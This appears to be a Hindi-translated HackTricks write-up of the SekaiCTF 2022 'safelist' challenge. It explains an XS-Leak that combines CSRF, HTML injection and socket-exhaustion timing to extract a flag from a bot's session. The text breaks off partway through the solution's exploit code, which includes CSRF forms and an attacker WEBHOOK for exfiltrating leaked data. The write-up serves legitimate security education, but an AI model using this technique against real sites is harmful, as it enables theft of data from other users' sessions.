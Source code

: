 # जुड़ाव नमूने

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## Sekaictf2022 - सुरक्षित सूची

[**Sekaictf2022 - सुरक्षित सूची**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/safelist/solution) चुनौती में, [**@Strellic\_**](https://twitter.com/Strellic\_) ने एक **जुड़ाव** के **परिवर्तन** का उपयोग करके **XS-Leak** करने का एक उदाहरण दिया है।

इस चुनौती में, लक्ष्य है कि एक झंडा चोरी करनी है जो बॉट्स वेब सत्र में एक पोस्ट में दिखाई देगा। यह हैं उसके पास विकासक के पास:

* **बॉट** एक विकासक द्वारा दिए गए **URL** पर **जाएगा**
* विकासक **पेज में HTML इंजेक्शन** कर सकता है (लेकिन कोई JS नहीं, dompurify का उपयोग किया जाता है) एक **CSRF** का दुरुपयोग करके बॉट को उस HTML के साथ एक पोस्ट बनाने के लिए।
* विकासक एक CSRF का दुरुपयोग कर सकता है ताकि बॉट पहले पोस्ट को वेब से हटा दे।
* क्योंकि **पोस्ट** को **वर्णमाला के आधार पर क्रमबद्ध** किया जाता है, जब **पहला पोस्ट हटा दिया जाता है**, अगर विकासक के HTML की सामग्री **लोड** होती है तो इसका मतलब है कि यह **झंडा से पहले वर्णमाला के आधार पर था**।

इसलिए, झंडा चोरी करने के लिए, @Strellyc\_ द्वारा प्रस्तावित समाधान है कि, **प्रत्येक चर को परीक्षण करने के लिए** विकासक को निम्नलिखित कार्रवाई करनी चाहिए:

* एक **नया पोस्ट बनाएं** जो ज्ञात हिस्से के साथ शुरू होता है और कई **img लोड** होते हैं।
* पोजीशन **0** में पोस्ट को **हटाएं**।
* 255 सॉकेट्स को ब्लॉक करें।
* पोस्ट के साथ पेज लोड करें
* साइट पर 5 यादृच्छिक अनुरोध करें (इस मामले में example.com) और इसका समय मापें।

{% hint style="warning" %}
यदि **हटाई गई** पोस्ट थी **झंडा**, तो इसका मतलब है कि HTML में **इंजेक्टेड** छवियां उस सॉकेट के लिए **5 यादृच्छिक अनुरोधों** के साथ लड़ रही हैं। जिसका मतलब है कि मापित समय अन्य स्थिति से अधिक होगा।

यदि **हटाई गई** पोस्ट थी **HTML**, तो **5 यादृच्छिक अनुरोध** तेज होंगे क्योंकि उन्हें HTML इंजेक्टेड के साथ उस सॉकेट के लिए लड़ने की आवश्यकता नहीं होगी।
{% endhint %}

### शोषण 1

यह शोषण कोड है, [https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html](https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html) से लिया गया है:
```html
<!-- Form to inject HTML code in the bots page -->
<form method="POST" action="https://safelist.ctf.sekai.team/create" id="create" target="_blank">
<input type="text" name="text" />
<input type="submit" />
</form>

<!-- Form to delete the first entry -->
<form method="POST" action="https://safelist.ctf.sekai.team/remove" id="remove" target="_blank">
<input type="text" name="index" value="0" />
<input type="submit" />
</form>

<script>
// Attacker listening
const WEBHOOK = "https://WEBHOOK.com/";
// Send data to attacker
const log = (id, data) => {
```